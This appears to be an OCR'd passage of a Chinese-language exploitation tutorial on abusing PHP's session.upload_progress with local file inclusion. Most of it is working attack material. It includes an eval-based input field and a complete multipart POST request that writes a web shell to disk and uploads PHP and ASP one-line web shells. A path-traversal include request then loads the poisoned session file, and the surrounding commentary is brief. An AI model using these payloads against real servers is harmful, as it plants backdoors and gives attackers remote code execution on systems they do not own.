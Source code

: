 ```
<input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="<?php eval($_GET[1]); ?>" />
```

如果`session.upload_progress.cleanup=On`开启，则POST的内容一旦被读取，session的内容就会被清空，所以为了在清空之前能包含到有我们payload的session，还需要用条件竞争，或者上传大文件？



如果你构造一个这样的报文，并且不断的向服务端发送

```
POST / HTTP/1.1
Host: 123.45.56.78
Proxy-Connection: keep-alive
Content-Length: 648
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2rwkUEtFdqhGMHqV
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5uu8r952rejihbg033m5mckb17

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?=`echo '<?php eval($_REQUEST[bertram])?>'>bertram.php`?>
------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="file2"; filename="1.php"
Content-Type: text/php

<?php eval($_POST[1]);?>

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="file1"; filename="2.asp"
Content-Type: application/octet-stream

< %eval request("a")%>

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary2rwkUEtFdqhGMHqV--
```

就会在session的存储路径下不断刷新生成包含恶意php代码的文件，然后通过LFI来包含这个文件

```
include.php?path=../../../../../../../var/lib/php5/sess_xxxxxxxxxxxxxxxxxxxxxxxxxx
```
